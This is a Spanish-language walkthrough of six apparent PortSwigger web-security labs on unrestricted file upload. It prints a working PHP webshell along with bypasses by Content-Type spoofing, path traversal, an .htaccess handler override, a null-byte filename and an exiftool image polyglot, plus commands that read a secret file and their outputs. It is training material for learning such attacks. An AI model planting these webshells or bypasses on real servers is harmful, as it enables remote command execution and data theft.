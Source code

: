 PortSwigger - Webshell

# Lab1
En este lab, se nos presenta un sistema de login donde podemos subir un archivo sin sanitizar. Subimos un archivo PHP como "pwned.php" y accedemos a la webshell con el siguiente enlace:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=whoami

Respuesta:
- carlos

El contenido de la webshell es el siguiente:

• <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>


Luego, para completar el lab, accedemos a la carpeta `/home/carlos/secret` para encontrar la flag:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- 4ThqTUOfwcuCkavnxxofmt8g9lmf5Ozj

# Lab2
En este lab, se nos impide subir archivos PHP, pero podemos eludir esta restricción utilizando BurpSuite. Modificamos la petición para cambiar el tipo de contenido a "image/png" y subimos el archivo "pwned.php". Luego, ejecutamos la webshell:

https://0a81006804832510849c04de00e800b0.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- aBKOzOBOVJm8gcKUDu4YSdYTiSt3nnEm

## Lab3
En este lab, la carpeta "/avatars" está sanitizada, por lo que debemos realizar un ataque de path traversal. Subimos la webshell como "../pwned.php" de forma que evitemos el directorio sanitizado mediante un bypass con el nombre y utilizamos BurpSuite para cambiar el nombre del archivo. Luego, accedemos a la webshell en la nueva ubicación:

https://0a6f0056042de6df8351a56a00f00063.web-security-academy.net/files/pwned.php?cmd=whoami

Respuesta:
- carlos

Para obtener la flag:

https://0a6f0056042de6df8351a56a00f00063.web-security-academy.net/files/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- lQZg3EpoTDXqTBUsJGj4kG1K6gtvelMx

# Lab4
En este lab, no se permite la ejecución de archivos .php. Cambiamos la extensión del archivo a ".png" y subimos un archivo ".htaccess" para permitir la ejecución de archivos ".png" como ".php". Ejecutamos la webshell:

https://0a3700c704dca7b28081adda00cd0094.web-security-academy.net/files/avatars/pwned.png?cmd=cat%20/home/carlos/secret

Contenido de ".htaccess" es el siguiente:

•AddType application/x-httpd-php .png

Respuesta:
- z0X9db4IUCnJOKli3LpTghJtobI5pmGD

# Lab5
En este lab, solo se permiten archivos ".png" y ".jpeg". Utilizamos BurpSuite para cambiar el nombre del archivo y el tipo de contenido para eludir la restricción. Subimos el archivo como "pwned.php%00.png" y ejecutamos la webshell:

https://0abb00e3043ba7768096c6bb0014005b.web-security-academy.net/files/avatars/pwned.php?cmd=cat%20/home/carlos/secret

Respuesta:
- ggRQHtZZeBt2dChk990rBYnkZcVnqs2E

# Lab6
En este lab, solo se permiten imágenes. Utilizamos la herramienta "exiftool" para mezclar el código PHP con una imagen. Subimos el archivo "exploit.php" y ejecutamos la webshell:

Primero descargamos una imagen cualquiera con el nombre, en este caso  "United.png"y luego con el siguiente comando hacemos que la imagen contenga el codigo php malicioso:

>exiftool -Comment='<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";?>' /home/kali/Desktop/Untitled.png -o exploit.php

https://0a93002604f390db8204936f0030003d.web-security-academy.net/files/avatars/exploit.php?cmd=cat%20/home/carlos/secret

Respuesta:
- YpUjBhe6HOxnddYWHLnHLyfyDAm1CIVF
